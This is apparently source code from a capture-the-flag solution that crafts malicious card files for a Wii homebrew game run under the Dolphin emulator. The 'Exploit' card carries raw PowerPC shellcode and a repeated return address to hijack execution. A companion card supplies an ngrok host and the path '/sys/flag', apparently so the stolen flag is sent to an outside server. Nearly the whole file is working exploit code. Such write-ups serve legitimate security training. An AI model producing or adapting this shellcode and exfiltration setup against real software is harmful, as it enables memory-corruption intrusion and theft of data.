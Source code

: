 ```py
        file_contents = magic + id + size + offset + card_type + zero_padding + attack + defense + name + description + self.texture
        
        with open(output_path, "wb") as f:
            f.write(file_contents)
            print(f"Saved: {output_path}")

# Random images to use as card textures for completeness
graphics_source1 = "/home/frank01001/Pictures/Misc/bus.jpg"
graphics_source2 = "/home/frank01001/Pictures/Misc/giarre.jpg"

# I directly load them in my SD card sync folder
out_path = "/home/frank01001/.var/app/org.DolphinEmu.dolphin-emu/data/dolphin-emu/Load/WiiSDSync/apps/forsaken_tower/content/"

shellcode = b'\x3c\x60\x90\x79\x60\x63\x97\x18\x7c\x84\x22\x78\x38\x84\x01\x01\x70\x84\xf0\xff\x3d\x80\x80\x10\x61\x8c\x7d\xe4\x7d\x89\x03\xa6\x4e\x80\x04\x21\x7c\x7f\x1b\x78\x7f\xe3\xfb\x78\x3c\x80\x90\x79\x60\x84\x97\x60\x7c\xa5\x2a\x78\x38\xa5\x01\x01\x70\xa5\xff\xf0\x3d\x80\x80\x10\x61\x8c\x7e\xd4\x7d\x89\x03\xa6\x4e\x80\x04\x21\x3c\x60\x90\x79\x60\x63\x97\x22\x7c\x84\x22\x78\x7c\x84\x22\x78\x38\x84\x28\x83\x3c\xa0\x90\x79\x60\xa5\x97\x60\x7c\xc6\x32\x78\x38\xc6\x01\x01\x70\xc6\xff\xf0\x7d\x8c\x62\x78\x3d\x8c\x81\x10\x61\x8c\xc9\x74\x7d\x6b\x5a\x78\x3d\x6b\x01\x10\x7d\x6c\x62\x78\x7d\x89\x03\xa6\x4e\x80\x04\x21'

# Create the output directory if it doesn't exist
os.makedirs(out_path, exist_ok=True)

dns = "6.tcp.eu.ngrok.io"

urlcard = Card(
    id=778,
    texture=open(graphics_source1, "rb").read(),
    card_type=CardType.MONSTER,
    name="/sys/flag",
    description= dns.encode() + b'\x00' + b"A" * (0x200 - len(dns) -1),
    attack=0,
    defense=0
)

exploit = Card(
    id=777,
    texture=open(graphics_source2, "rb").read(),
    card_type=-4,
    name="Exploit",
    description=b"AAA\xFF" + shellcode + p32(0x811503a4) * (104 // 4),
    attack=0, 
    defense=0
)

# Serialize the card to binary
output_path = os.path.join(out_path, f"{778}.bin")

urlcard.serializeToBinary(output_path)


# Serialize the card to binary
output_path = os.path.join(out_path, f"{777}.bin")

exploit.serializeToBinary(output_path)
```
